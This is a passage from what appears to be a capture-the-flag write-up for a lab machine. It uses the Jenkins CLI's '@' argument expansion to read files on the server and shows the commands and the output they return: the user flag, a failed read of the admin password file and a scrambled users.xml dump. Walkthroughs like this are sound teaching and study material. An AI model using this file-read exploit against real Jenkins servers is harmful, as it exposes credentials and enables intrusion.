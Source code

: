    
    
    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/user.txt' a
    
    ERROR: Too many arguments: a
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command (default: ffcb78dc3a26226b97276f24e26fc272)
    

#### Passwords

Jenkins [stores](https://boozallen.github.io/sdp-docs/learning-labs/1/local-
development/3-configure-jenkins.html) the initial password for the admin user
at `/var/jenkins_home/secrets/initialAdminPassword`. Unfortunately, that
returns “No such file”:

    
    
    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a
    
    ERROR: No such file: /var/jenkins_home/secrets/initialAdminPassword
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command
    

Jenkins [stores information](https://dev.to/pencillr/spawn-a-jenkins-from-
code-gfa) about its user accounts in `/var/jenkins_home/users/users.xml`.
Using `reload-node`, I’ll get the lines of that file, albeit a bit scrambed:

    
    
    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
    <?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
          <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
      <idToDirectoryNameMap class="concurrent-hash-map">: No such item ‘  <idToDirectoryNameMap class="concurrent-hash-map">’ exists.
        <entry>: No such item ‘    <entry>’ exists.
          <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
      <version>1</version>: No such item ‘  <version>1</version>’ exists.
    </hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
      </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
    <hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
        </entry>: No such item ‘    </entry>’ exists.
    
    ERROR: Error occurred while performing this command, see previous stderr output.
    

Still, I can see a user “jennifer_12108429903186576833”, which matches the
jennifer user on the site above. That is a directory name and in it will be a
`config.xml`:

    
    